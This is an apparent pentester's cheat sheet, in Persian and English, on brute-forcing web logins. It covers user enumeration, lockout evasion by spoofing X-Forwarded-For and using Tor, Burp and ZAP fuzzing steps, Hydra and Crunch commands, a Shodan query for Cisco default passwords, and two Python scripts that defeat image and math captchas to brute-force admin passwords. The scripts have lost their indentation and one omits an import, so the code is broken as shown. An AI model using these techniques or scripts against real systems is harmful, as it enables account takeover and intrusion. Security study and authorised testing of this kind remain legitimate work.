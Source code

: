#  Brute Force

## Exploit
- باید تعداد thread همزمان را کنترل کنیم تا پاسخ درست برای همه request ها بیاید و payload ای را از دست ندهیم.
- باید به دنبال رفتار متفاوت برنامه در مواجه با نام کاربری اشتباه و رمز عبور اشتباه بگردیم
  - صدور پیام خطای متفاوت برای نام کاربری غلط و رمز عبور غلط 
    - یکی از راه های بررسی پیغام خطای متفاوت، بررسی طول متفاوت پاسخ ها می باشد
    - اگر تفاوت تابلو باشد از بخش Grep-Match استفاده کرده و نام کاربری درست را پیدا می کنیم، سپس با استفاده از کد پاسخ 302 رمز عبور درست را می یابیم
    - اگر تفاوت جزئی بود (مثلا یه نقطه کمتر بیشتر)، از Grep-Extract استفاده کرده که response را fetch می کند و همان جا می توانیم هایلایت کنیم، تا به دنبال string ما بگردد، سپس در ستون Warning از خروجی حمله، به دنبال تفاوت ها می گردیم
  - زمان پاسخ طولانی تر برای نام کاربری درست
    - درخواست لاگین را به intruder برده و یک رمز عبور طولانی (بالای 100 کاراکتر) قرار داده و نام کاربری را $ می کنیم، پس از اجرای حمله، بر روی Column کلیک کرده و آیتم های "Response received" و "Response completed" را به ستون ها اضافه می کنیم، نام کاربری که زمان پاسخ طولانی تر دارد را چند بار دیگر تست می کنیم، تا مطمئن شویم که زمان آن همیشه طولانی تر است 
- اگر به ازای درخواست زیاد روی IP بلاک شویم، از روش های زیر استفاده می کنیم :
  - هدر ```X-Forwarded-For``` را به درخواست اضافه کنیم
    - برای ترکیب این حالت با حملات قبل، از نوع حمله Pitchfork استفاده می کنیم 
    - نوع payload برای هدر را Number قرار داده، از 1 تا 100 با پله های 1، همچنین Max fraction digits
  - ممکن است شمارنده بلاک شدن لاگین های ناموفق، پس از یک لاگین موفق، ریست شود. در این صورت نام کاربری و رمز عبور درست متناظر با آن را لابه لای payload ها قرار می دهیم، تا از بلاک شدن جلوگیری شود.
- ی


## Burp
- Send request to Intruder
- Decode user/pass in the request
  - Right-click on the value and select "Convert selection > Base64 > Base64-decode"
  - The credentials passed to the login prompt are shown => test:123
- Replace the credentials with a parameter to be substituted => creds
- Click on the Add$ Button on the right side
- Navigate to the Payloads tab and load the 100-common-passwords.txt list
- In the Payload Processing section click on the "Add" button
- Select "Add Prefix" & Set the Prefix to "admin:"
  - Now "admin:" would be appended to each password from the list 
- Add another Payload Processing option to encode the payload to base64 
  - Select the Encode Rule as Base64-encode 
- Click on the "Start Attack" button 
- Check the Status codes of the requests and check the payload for the request with a different status code => 301
- Double click on the request entry
- Select the credentials in the Authorization header field and send them to the Decoder tab

## ZAProxy
- Click on "Manual Explore", enter the target IP address in the Input field and click on "Launch Browser" => A browser session will be started with ZAP HUD
- Click on "Continue to your target"
- Attempt login with invalid credentials => The website and the login page action will be added to the sitemap
- Click on the POST request from the sitemap and click on the "Request" tab
- Right click on the POST request, navigate to Attack and click on "Fuzz" => The Fuzzer window will appear
- Select the entered username "john" and click on the Add button => The payloads window will appear
- Click on the Add button, enter the payloads for username. Click on the Add button => Payloads: admin,bee 
- Click on the "OK" button => The payload will appear in the Fuzz Locations
- Similarly, select the entered password "doe" and click on the Add button => The payloads window will appear
- Click on the Add button, enter the payloads for password. Click on the Add button => Payloads: admin, password, adminpasswd, cookie, hello, world, bug, bee
- Click on the OK button => The payload will appear in the Fuzz Locations
- Click on Start Fuzzer. Upon completion of the attack, compare the status code => One of the status code will be 302


## Hydra (Brute force)
- ```hydra -L usernames -P passwords 192.208.137.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"```
  - ```-L```: usernames file
  - ```-P```: password file 
  - ```^USER^``` placeholder will take in the username from the list
  - ```^PASS^``` placeholder will take in the password from the list

## Crunch (Wordlist generator)
- Syntax
  - ```crunch [min]  [max] [characters] -t [pattern] -o [filename]```
- Example
  - ```crunch 6 8 123abc$ -i wordlist -t a@@@@b```
  - ```crunch 6 8 abc12 -o test.txt```

## Wordlists
- ftp://ftp.openwall.com/pub/wordlists/
- https://github.com/berzerk0/Probable-Wordlists
- http://www.openwall.com/mirrors/
- http://www.outpost9.com/files/WordLists.html
- http://www.vulnerabilityassessment.co.uk/passwords.htm
- http://packetstormsecurity.org/Crackers/wordlists/
- http://www.ai.uga.edu/ftplib/natural-language/moby/
- http://wordlist.sourceforge.net/


# Broken Authentication

## User Enumeration
- Burp => Intuder => Grep & Match: ```Incorrect```

## Password Attack
- Burp => Intruder => Attack type: Cluster Bomb

## Default Password
- Shodan => ```net:"77.36.0.0/16" cisco default password```

## Weak Lock Out Mechanism
- استفاده از قفل بازه زمانی
- Bypass with Tor

## Weaker Authentication in Alternative Channel
- Check Mobile app functionality to bypass Web app

## Image Captcha Bypass
- Extract text of image captcha, and brute force the login page
- The image tag is: ```<img id="captcha-image" src="<datauri>"></img>```
- The incorrect attempts can be identified by the "Error!" string.
- Pyton script:
  - fetch the captcha datauri and the cookie from the webpage
  - use the tesseract python module to retrieve the text from the captcha
  - iterate over the password list and send a POST request to the login endpoint along with the required POST parameters
```Python
from PIL import Image
import base64
import pytesseract
import io
import re
import requests
session = requests.Session()
regex = '<img id="captcha-image" src="(.*?)"></img>'
with open('passwords.txt','r') as f:
for password in f:
password = password.rstrip()
response = session.get('http://192.232.252.3')
output = re.search(regex, response.text)
cookies=session.cookies.get_dict()
imgstring = output.group(1).split('base64,')[-1].strip()
image_string = io.BytesIO(base64.b64decode(imgstring))
image = Image.open(image_string)
captcha=pytesseract.image_to_string(image)
print("Trying Password: "+password)
data={"username":"admin","password":password,"captcha":captcha}
output=session.post('http://192.232.252.3/login', cookies=cookies,data=data)
if("Error" not in output.text):
print("Password Found: "+password)
break
time.sleep(0.250)
```

## Math Captcha Bypass
- Extract sum of image captcha equation, and brute force the login page
- The captcha is generated between the tag: ```<h5 style="text-align: center;margin-top: 4px"> and </h5>```
- The incorrect attempts can be identified by the "Error!" string
```Python
import re
import requests
session = requests.Session()
regex = '<h5 style="text-align: center;margin-top: 4px">(.*?) = </h5>'
with open('passwords.txt','r') as f:
for password in f:
password = password.rstrip()
response = session.get('http://192.133.218.3')
output = re.search(regex, response.text)
cookies=session.cookies.get_dict()
captcha=eval(output.group(1))
print("Trying Password: "+password)
data={"username":"admin","password":password,"captcha":captcha}
output=session.post('http://192.133.218.3/login', cookies=cookies,data=data)
if("Error" not in output.text):
print("Password Found: "+password)
break
```


